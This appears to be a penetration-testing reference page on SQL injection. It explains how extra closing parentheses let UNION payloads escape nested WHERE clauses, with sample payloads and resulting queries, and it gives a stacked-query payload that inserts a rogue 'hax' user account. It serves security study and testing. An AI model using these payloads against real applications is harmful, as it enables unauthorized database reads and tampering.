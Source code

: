 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Other

## SQL Parser Tolerance

SQL parsers in many databases are **tolerant of extra parentheses**; they are treated as valid syntax even if they don't pair with opening parentheses. For instance, if we are testing an application that we have control of the `name` parameter and we infer that the query looks something like this:

```sql
SELECT id, name, description, price
FROM products
WHERE (name LIKE '%z%' AND active = true)
ORDER BY id ASC;
```

we can add one or more closing parentheses to account for extra nesting:

```sql
// payload
z')union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 500
WHERE (name LIKE '%z')union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

```sql
// payload
z'))union+select+1,version(),3,4--+;
```

{% code overflow="wrap" %}
```sql
// results in 200
WHERE (name LIKE '%z'))union+select+1,version(),3,4--+; AND active = true) ORDER BY id ASC;
```
{% endcode %}

## Stacked Queries

Some RDBMS[^1]s can execute more than one query at a time: these queries are submitted simultaneously, but executed sequentially. An RDMS might execute only the first query while another execute only the last.

A common vector of exploiting stacked queries is to add, update, or delete data as these types of queries don't return results if successfully executed.

```sql
// payload
10; insert into users(id, username, password) values (1001,'hax','hax');
```

## Reading/Writing Files

* For PostgreSQL see [here](../../../services/tcp/dbms/sql/postgresql-5432.md#read-write).
* For MySQL see [here](../../../services/tcp/dbms/sql/mysql-3306.md#read-write).

## RCE

* For MSSQL see [here](../../../services/tcp/dbms/sql/mssql-1433.md#rce).

[^1]: Relation Database Management System
